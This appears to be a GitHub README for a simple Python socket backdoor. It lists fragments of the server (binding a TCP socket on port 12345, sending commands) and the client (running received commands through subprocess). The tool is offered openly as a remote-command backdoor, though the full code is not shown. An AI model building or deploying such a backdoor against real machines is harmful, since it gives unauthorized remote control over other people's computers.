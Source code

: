 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

# lib
- `from socket import *` # for connection
- `import subprocess` # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

![Image](https://github.com/NoNameoN-A/Backdoor-Client-Server-Socket-Python/blob/main/screenshot.png)
